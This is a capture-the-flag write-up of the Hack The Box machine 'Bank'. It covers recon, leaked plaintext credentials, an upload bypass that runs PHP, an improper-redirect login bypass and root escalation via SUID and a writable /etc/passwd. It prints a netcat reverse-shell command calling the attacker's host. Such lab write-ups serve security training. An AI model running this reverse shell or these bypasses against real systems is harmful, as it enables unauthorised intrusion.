

# Recon

## nmap 
```console
root@kali:~# nmap -sC -sV 10.10.10.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 20:35 EDT
Nmap scan report for 10.10.10.29
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.61 seconds
```

## gobuster
```bash
gobuster dir -u 10.10.10.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```
gobuster didn't gave any results for 10.10.10.29  
`searchsploit isc bind` --> all exploits for `ISC BIND 9.9.5` were denial of service so not useful  

adding `10.10.10.29` to `/etc/hosts` as `bank.htb` and then visiting bank.htb gave a login page



sqlmap didn't gave any results for the login page  
running gobuster for `bank.htb` gave `/assets` and `/inc` which contain some files but they were not useful  
```bash
gobuster dir -u bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```





# Plain Text Creds
visiting `/balance-transfer` we see a lot of `.acc` files with username emailID and password in encrypted hex





there might be something important in one of these files so we can try to find a file of different size than others  
most files that I see are between 582-585 in size so I used `curl` and `grep` to find a different file
```bash
curl http://bank.htb/balance-transfer/ | grep -v '/td><td align="right">58'
```



we can see in the output of above command that `68576f20e9732f1b2edc4df5b8533230.acc` is just 257 bytes  
this file had username emailID and password in plain text  


# Reverse Shell
we can now login using `chris@bank.htb:!##HTBB4nkP4ssw0rd!##` and there is a file upload functionality in `/support.php`  
trying to upload php file give error that only image upload is allowed 


in the source code of /support.php we can see this comment 



uploading php file with `.htb` extension allows to execute php code  
after uploading `shell.htb` we can visit the following URL to get a shell  
```
http://bank.htb/uploads/shell.htb?c=nc 10.10.14.31 8888 -e /bin/bash
```



# Alternate Way
## Improper Redirect
we can also upload the shell.htb file without having to login as chris because of improper redirect  
`/support.php` gets redirected to `/login.php` if we are not logged in but it also gives the content of /support.php before the redirect  
so we can still upload the file without login by changing the `302 FOUND` to `200 OK` in burp and then access the uploaded file from `/uploads/shell.htb`  
as curl does not allow redirect by default we can curl /support.php to see that it gives "302 FOUND" but still gives the content



# privEsc
## Method 1 - SUID
found an uncommon suid binary 
```
find / -perm -u=s 2>/dev/null
```



## Method 2 - /etc/passwd
looking through the results of `LinEnum.sh`, we can see that we have write access on /etc/passwd  
so we can either change the root password or add another user in /etc/passwd to get root shell  



we can use openssl to generate the encrypted password  




after adding a new user with root privileges we can either switch user using `su` or SSH as that user  






